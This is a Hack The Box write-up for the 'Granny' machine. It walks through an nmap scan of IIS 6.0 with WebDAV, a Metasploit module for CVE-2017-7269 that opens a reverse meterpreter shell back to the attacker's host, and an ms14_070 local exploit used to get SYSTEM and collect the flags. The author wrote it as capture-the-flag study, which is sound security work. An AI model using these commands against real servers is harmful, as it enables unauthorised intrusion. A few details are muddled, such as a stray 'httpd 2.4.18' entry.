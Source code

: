 ![logo](/logo.png)

# [Granny- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 12 Apr 2017 as the twe machine on HTB,Granny created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Microsoft-IIS/6.0
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/granny 10.10.10.15
```

###### Output 

![](/Windows/Windows-Easy/Granny/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/granny 10.10.10.15                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 18:34 EAT
Nmap scan report for 10.10.10.15
Host is up (0.33s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Tue, 13 Aug 2024 15:35:35 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.69 seconds
```

looking at the results  we find out that there is 1 ports open and its a `Windows`and its running an `Microsoft IIS httpd 6.0`. 

port[80]-  httpd 2.4.18

when we naviagate to [http://10.10.10.15](http://10.10.10.15) we find a page that say it under construction 

 ![](/Windows/Windows-Easy/Granny/Screenshots/granny.png)

so we know the machine version so what we are going to do is to search for the exploit 

```sh
searchsploit Microsoft IIS 6.0 
```

![](/Windows/Windows-Easy/Granny/Screenshots/searchsploit.png)

Some searching reveals a remote code execution vulnerability (CVE-2017-7269). There is a proof of concept that requires some modification, as well as a Metasploit module. Lets examine the Remote Buffer Overflow.After Examining the exploit we now Import it to our working directory.

# Exploitation

Executing the Metasploit module `windows/iis/iis_webdav_scstoragepathfromurl` immediately grants a shell.

```sh
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.15
set RPORT 80
set LHOST 10.10.14.15
run
```

![](/Windows/Windows-Easy/Granny/Screenshots/meterpreter.png)

looking at `sysinfo` it refuse because of access probably we are in the 32-bit meterpreter that does not have privillages .We noticed that it running a 32 bit meterpreter so lets migrate to a 32 bit meterpreter with `NT Authority` and be able to run a `local suggester`

After migrating we can now be able to run `sysinfo`

![](/Windows/Windows-Easy/Granny/Screenshots/sy64.png)

now i run suggester to find exploits which are vulnerable

# Privillage Exploitation

```sh
search local_exploit_suggester
use multi/recon/local_exploit_suggester
```

![](/Windows/Windows-Easy/Granny/Screenshots/eploits.png)

looking at the results we find that their are a couple of exploits. In this case lets try this exploit `exploit/windows/local/ms14_070_tcpip_ioctl`

```sh
use exploit/windows/local/ms14_070_tcpip_ioctl
```

![](/Windows/Windows-Easy/Granny/Screenshots/msf.png)

and just that way we get shell

![](/Windows/Windows-Easy/Granny/Screenshots/shell.png)

we can get the user flag from `C:\Documents and Settings\Lakis\Desktop`  and the root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`

![](/Windows/Windows-Easy/Granny/Screenshots/root.png)

	-------------------------END successful attack @lesley----------------------
